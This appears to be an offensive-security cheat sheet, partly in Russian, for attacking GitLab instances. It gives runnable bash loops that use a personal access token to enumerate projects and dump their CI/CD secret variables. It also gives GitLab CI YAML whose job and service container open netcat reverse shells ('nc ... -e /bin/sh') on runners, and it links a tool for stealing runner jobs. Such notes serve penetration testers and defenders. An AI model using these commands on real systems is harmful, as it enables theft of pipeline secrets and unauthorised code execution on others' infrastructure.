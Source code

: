 ```yaml
---
description: Gitlab checks
---
```


# Gitlab

### Search for secrets

{% embed url="https://github.com/praetorian-inc/noseyparker" %}

```bash
#Scan repo
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan .
#Get results
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report
```

### Reconnaissance

{% embed url="https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/" %}

### Check public repositories

```bash
curl "https://gitlab.com/api/v4/projects?visibility=public&per_page=100"" | jq '.[] | {name, path, web_url}'
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

**Route `/explore` allow to go behind the login panel**

### Abusing GitLab token

#### Token types:

* #### **`glpat-` (GitLab Personal Access Token)**
* #### **`gitlab-internal-` (Internal API Token)**
* #### **`glct-` (GitLab CI/CD Job Token)**
* #### **`glrt-` (GitLab Runner Token)**

#### Get variables from projects

define count pages and replace max page in seq. First take all projects id

```bash
for page in $(seq 0 110); do echo $page && curl -s --header "PRIVATE-TOKEN: <token>" "https://gitlab.example.com/api/v4/projects?per_page=100&page=$page" | jq ".[].id" >> gitlab-ids.txt; done
```

Then try get var

```bash
while IFS='' read -r LINE || [ -n "${LINE}" ]; do url="https://gitlab.example.com/api/v4/projects/$LINE"; vars=$(curl -s --header 'PRIVATE-TOKEN: token' $url/variables); [ ${#vars} -gt 5 ] && echo $vars > .tempvars && curl -s --header 'PRIVATE-TOKEN: token' $url | jq --slurpfile v .tempvars '{id: .id, git: .http_url_to_repo, vars: $v[0]}' >> gitlab-vars.txt; done <gitlab-ids.txt
```

Also try get gitlab-group vars (мне пока лень)

### Abusing GitLab Runners

{% embed url="https://frichetten.com/blog/abusing-gitlab-runners/" %}

Script for steal tasks by requesting them faster than a real runner - [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)



### Check projects access level&#x20;

```bash
curl --header "PRIVATE-TOKEN: <token>" "https://gitlab.com/api/v4/projects?membership=true&per_page=100"
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

```json
[
  {
    "id": 123,
    "name": "my-repo",
    "path": "my-repo",
    "permissions": {
      "project_access": {
        "access_level": 30  # 30 = Developer
      },
      "group_access": null
    }
  }
]
```

**Уровни доступа:**

* `10` — Guest (только чтение)
* `20` — Reporter (чтение + доступ к CI/CD)
* `30` — Developer (чтение + запись + запуск CI/CD)
* `40` — Maintainer (полный доступ, кроме удаления проекта)
* `50` — Owner (полный доступ)



### CI Abuse

**Exec code in runner**

````
```yaml
stages:
  - build
  
build-job:
  image: 
    name: python:3.11-alpine
  stage: build
  script:
    - nc 192.168.1.1 1337 -e /bin/sh
  tags:
    - runner-tag                        #Check tags of runners in project settings
```
````



**Exec code in runner service**

_Services can also have privileged containers_

````
```yaml
stages:
  - build

build-job:
  image: docker:28.0.4-dind-alpine3.21
  services:
    - name: docker:28.0.4-dind-alpine3.21
      alias: docker
      command: ["nc", "192.168.1.1", "1337", "-e", "/bin/sh"]
  variables:
    DOCKER_HOST: tcp://docker:2375
    DOCKER_TLS_CERTDIR: ""        
  stage: build
  script:
    - echo waiting && sleep 999999999
  tags:
    - runner-tag                   #Check tags of runners in project settings
```
````
